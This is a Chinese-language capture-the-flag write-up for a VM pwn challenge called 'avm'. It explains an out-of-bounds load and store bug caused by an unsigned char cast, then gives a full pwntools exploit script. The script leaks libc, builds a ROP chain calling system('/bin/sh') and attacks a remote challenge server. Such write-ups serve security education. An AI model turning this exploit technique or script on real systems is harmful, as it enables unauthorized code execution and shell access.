 # avm

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序构造了一个类似于mips的vm，在bss上放着vm的结构，包含32个64位寄存器，text地址，
pc和text终结地址。每一条指令都占4字节，布局为5位的dest寄存器，5位的from寄存器，
12位的offset和4位的opcode。opcode共映射到10个函数，其中的`f9`和`f10`对偏移的判断存在逻辑错误：
由于使用`byte`(`unsigned char`)强制转换，导致该式永远成立，因此可以实现越界store和load。

![](assets/errorcode.png)

从`main`的返回地址`__libc_start_main`获取libc，从`main`的rbp获取1（程序不支持imm），
然后构造出`pop rdi`、`/bin/sh`和`system`的地址并覆写vm函数的返回地址，实现rop拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './avm'

ADD     = 1
SUB     = 2
MUL     = 3
DIV     = 4
XOR     = 5
AND     = 6
LSHIFT  = 7
RSHIFT  = 8
STORE   = 9
LOAD    = 10

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1afc)\nb *$rebase(0x1aaf)\n')
    else:
        sh = remote('39.105.102.220', 26719)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    # 0x29d90 -> leak; 0x2a3e5 -> pop rdi; 0x1d8678 -> /bin/sh; 0x50d70 -> system
    leak = 0x29d90
    def assemble(buf: bytearray, op: int, dst: int, reg1: int, reg2: int):
        buf.extend(p32((op << 28) + (reg2 << 16) + (reg1 << 5) + dst))

    def construct(buf: bytearray, dst: int, num: int):
        stack = []
        while num:
            stack.append(num & 1)
            num >>= 1
        while stack: # 10110 -> 0 1 1 0 1 -> 10110
            if stack.pop(): # 1
                assemble(buf, ADD, dst, dst, 1)
            if len(stack) > 0:
                assemble(buf, LSHIFT, dst, dst, 1)
        assemble(buf, ADD, dst, dst, 2)

    ops = bytearray()
    assemble(ops, LOAD, 2, 0, 0xd38) # r2 = leak
    assemble(ops, LOAD, 1, 0, 0xd30) # r1 = 1
    construct(ops, 3, 0x2a3e5 - leak) # r3 = pop rdi
    construct(ops, 4, 0x1d8678 - leak) # r4 = /bin/sh
    construct(ops, 5, 0x50d70 - leak) # r5 = system
    construct(ops, 6, 0x2a3e6 - leak) # r6 = ret
    assemble(ops, STORE, 3, 0, 0x118)
    assemble(ops, STORE, 4, 0, 0x120)
    assemble(ops, STORE, 6, 0, 0x128)
    assemble(ops, STORE, 5, 0, 0x130)

    sh.sendafter(b'opcode', bytes(ops))

    sh.clean()
    sh.interactive()
    sh.close()
```

![](assets/avmFLAG.png)
